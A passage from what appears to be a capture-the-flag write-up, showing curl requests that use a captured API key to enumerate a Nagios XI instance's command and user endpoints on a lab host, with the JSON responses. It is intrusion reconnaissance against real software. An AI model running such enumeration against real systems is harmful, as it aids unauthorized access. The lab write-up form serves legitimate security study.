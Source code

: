         "result_code": "0",
        "result": ""
      },
      {
        "command_id": "97",
        "submitter_id": "1",
        "command": "1100",
        "submission_time": "2023-12-07 01:42:52",
        "event_time": "2023-12-07 01:42:52",
        "processing_time": "2023-12-07 01:42:53",
        "status_code": "2",
        "result_code": "0",
        "result": ""
      }
    ]
    

Unfortunately, POST and PUT don’t do anything:

    
    
    oxdf@hacky$ curl -X POST -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
    {"error":"Unknown API endpoint."}
    oxdf@hacky$ curl -X PUT -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/command?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL'
    {"info":"This section has not yet been implemented."}
    

#### User

Sending a GET to `user` returns information about the two users:

    
    
    oxdf@hacky$ curl -k 'https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL' -s | jq .
    {
      "records": 2,
      "users": [
        {
          "user_id": "2",
          "username": "svc",
          "name": "svc",
          "email": "svc@monitored.htb",
          "enabled": "0"
        },
        {
          "user_id": "1",
          "username": "nagiosadmin",
          "name": "Nagios Administrator",
          "email": "admin@monitored.htb",
          "enabled": "1"
        }
      ]
    }
    
